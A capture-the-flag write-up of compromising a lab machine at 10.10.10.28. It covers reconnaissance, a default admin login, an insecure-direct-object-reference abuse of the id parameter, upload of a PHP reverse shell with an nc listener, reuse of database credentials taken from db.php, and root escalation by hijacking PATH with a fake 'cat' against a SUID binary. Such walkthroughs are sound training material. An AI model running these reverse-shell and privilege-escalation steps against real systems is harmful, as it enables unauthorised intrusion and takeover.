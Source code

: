 # 10.10.10.28

---

# nmap -sS -sC -sV -O -oX ./nmap/init.xml 10.10.10.28

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

---

##gobuster -w ./../SecLists-2021.2/Discovery/Web-Content/quickhits.txt -u 10.10.10.28 -q -r dir

```
//index.phps (Status: 403)
//server-status/ (Status: 403)
//uploads/ (Status: 403)
```

---

## Found exploit for OpenSSH <7.7 Username Enumeration

++ [Exploit-db](https://www.exploit-db.com/exploits/45233)

Python code is in `exploit_ssh_7_6.py`.
Code seems to be broken. Even after fixing parantesis problems.

---

## Used Burp to examine the site.

Packages reveal `10.10.10.28/cdn-cgi/login`.
Login site has Username and Password requirements.

Simply by tring:
Username: admin
Pass: MEGACORP_4dm1n!!

---

## Sublinks:

Clients link exposes:
```
Client ID	Name	Email
1	Tafcz	john@tafcz.co.uk
```

Account link exposes:
```
Access ID	Name	Email
34322	admin	admin@megacorp.com
```

Uploads page is locked behind super admin rights.

---

## Attacking with Burp repeater

`id=1` variable is exposed through the URL. We can enumerate this.
After using Burp to attack, the id for super admin gets exposed.

Super Admin ID: 30

---

## Accessing account page of Super Admin

There is no authorazitation gate. Modifiying the payload on Burp to match Super Admin's ID reveals their account page:
```
Access ID	Name	Email
86575	super admin	superadmin@megacorp.com
```

Super Admin Access ID: 86575
Role: super admin

---

## Get reverse shell inside the system

Reverse shell with PHP from ++ [here.](https://github.com/pentestmonkey/php-reverse-shell)
Saved in .reverse-shell.php
Needs IP and Port supplied.
We upload this file and modify the payload again.

---

## Finding where it ended up

Python program [dirsearch](https://github.com/maurosoria/dirsearch) helps out here.

---

## python3 dirsearch.py -u http://10.10.10.28 -e php

```
[02:57:11] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
```

---

## curl http://10.10.10.28/uploads/reverse-shell.php

```
sudo nc -lvnp 443	//	To listen.
```

---

## After the reverse shell, we search for credentials.

Going back to the website's folders reveals `db.php`. Inside it are some credentials:
```
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

Username: robert
Pass: M3g4C0rpUs3r!

Using `id robert` reveals:
```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Using `su robert` and entering the pass enables us to take over `robert` user's identity.

---

## find / type f -group bugtracker 2>/dev/null

```
/usr/bin/bugtracker
```

---

## ls -la bugtracker

```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 bugtracker
```

It is owned by root. Let's run it.

---

## The reverse shell dropped, but we have credentials.

After `ssh robert@10.10.10.28`, we enter the same pass and we are in. This is officially.

---

## We use `strings` on bugtracker

```
...
cat /root/reports/
...
```

This is a relative path instead of absolute. We can abuse this.

---

## Creating a shell disguised as cat

```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```

---

## We run bugtracker once more and supply id=1 as the bug id.

This runs cat on the local working directory. It was cat in it and it is run by root priviliges. But cat is actually a shell and now we have privileged shell.

---

Last thing I have done is to remove false cat file and `tmp` from PATH. Now I can cat out root.txt and this is it.